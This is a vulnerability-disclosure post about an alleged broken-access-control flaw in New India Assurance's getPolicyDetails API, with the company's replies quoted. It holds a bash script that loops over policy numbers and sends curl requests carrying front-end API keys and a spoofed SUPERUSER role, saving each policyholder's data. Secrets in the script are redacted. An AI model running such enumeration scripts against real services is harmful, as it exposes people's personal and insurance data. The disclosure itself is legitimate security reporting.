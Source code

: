 ```yaml
---
title: The New India Assurance Co Ltd Alleged Vulnerability 2024
date:
  created: 2025-08-13
  updated: 2025-09-12
---
```


<br>
An alleged vulnerability in the [New India Assurance](https://www.newindia.co.in/portal/login/customer) website allowed downloading sensitive personal information of policyholder simply by the policy number.

Summary of the alleged vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [getPolicyDetails](#1-getpolicydetails)  | 31 October 2024 | before 18 November 2024 | Less than 18 | not assigned due to non-reproducibility (due to delay in reporting it to CERT after reporting it to NIA) |

Alleged root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

It is important to note that the **company denied existence** of any vulnerability.

<!-- more -->

> Thank you for your valuable feedback. We would like to inform you that your
> concerns have been reviewed by the relevant team, and it has been confirmed that
> the system does not permit downloading of other insured details. We assure you that
> NIA is committed to maintaining the safety and security of the customers and will
> continue to do so.
> We consider the matter resolved and are closing it accordingly.

After providing them with a sample JSON file, they replied as follows:

> Dear Sir,
>
> Thank you very much for your revert and inputs.
>
> We really appreciate your concern on the matter and seriousness associated with it.
>
The  fact of matter is that we are having a managed SOC and as soon as we received your alert, we had shared the same with our partners for their response post which immediately we sought the services of Cert-In empanelled  Independent Assurance Auditor. Based on their observations, we updated both Cert-In as well as IRDA on this issue and shared our response to your query.  There was no intention of covering up and NIA believes in collaborative efforts to mitigate vulnerabilities. We are very much interested to learn more on this issue/other cyber security related  issues from you and our INFOSEC team will > coordinate with you to seek your appointment and meet you in person, if it is acceptable to you, to learn more and to infuse improvements.
>
> We once again thank you for the inputs and support.
>
> $$$
>
> Chief Manager,
>
> Corporate Finance & Accounts Dept.,
-----

### 1. getPolicyDetails

The API relied on headers `api_key` and `checksum` but these were available in the front-end code itself, and were not tied to any user session. `userid` and customer ID were also not authenticated or signed.

```bash title="sample_script.sh" linenums="1" hl_lines="2 6 7 10"
#!/bin/bash
for POLICY_NUMBER in $$$$$$$$ $$$$$$$$; do
    curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
    -H 'customerName: CUSTOMER' \
    -H 'typeOfCustomer: CUSTOMER' \
    -H 'api_key: $$$$$$$$' \
    -H 'checksum: $$$$$$$$' \
    -H 'applicationid: portal' \
    -H 'userid: CUSTCG0000' \
    --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"'"$POLICY_NUMBER"'","processType":"NB","productCode":"PU"},"productCode":"PU"}' \
    -o policy_leak_$POLICY_NUMBER.json
done
```

<details>
<summary>Sample output</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_nia/nia_vuln_1.json"
```
</details>

### $$ Alleged fix

After the alleged fix, the new curl request was as follows. Observe the new header `X-Auth-Token` and the additional `Cookie` header.

```bash title="sample_script_fixed.sh" linenums="1" hl_lines="2 8"
curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
 -H 'X-Auth-Token: $$$$$$$$' \
 -H 'customerName: CUSTOMER' \
 -H 'typeOfCustomer: CUSTOMER' \
 -H 'api_key: $$$$$$$$' \
 -H 'checksum: $$$$' \
 -H 'applicationid: portal' \
 -H 'Cookie: citrix_ns_id=$$$$$$$$' \
 -H 'userid: CUSTCG0000' \
 --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"$$$$$$$$","processType":"NB","productCode":"PU"},"productCode":"PU"}'
```
